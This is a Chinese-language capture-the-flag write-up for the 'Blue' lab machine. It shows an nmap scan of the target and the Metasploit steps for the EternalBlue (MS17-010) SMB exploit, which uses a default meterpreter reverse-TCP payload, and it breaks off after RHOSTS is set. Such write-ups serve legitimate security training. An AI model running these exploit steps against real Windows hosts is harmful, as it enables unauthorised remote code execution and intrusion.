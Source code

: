 ```yaml
---
sidebar_position: 1
tags: [Easy, Windows, CVE-2017-0146]
title: Blue
description: Windows 永恒之蓝漏洞介绍
sidebar_label: Blue
---
```

# Blue
## 端口扫描
> 因为 Windows 防火墙默认不回显 ICMP 请求所以需要使用 -Pn 选项

```bash
root@ip-10-10-158-144:~# nmap -sT -p- --min-rate 1000 -Pn  10.10.75.105

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-01 11:16 BST
Nmap scan report for ip-10-10-75-105.eu-west-1.compute.internal (10.10.75.105)
Host is up (0.0032s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 38.76 seconds
```
## ms17-010
直接使用 MSF 进行攻击就可以了, 永恒之蓝漏洞都是老漏洞了, 配置完成之后直接运行就可以了
```bash showLineNumbers
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.75.105
```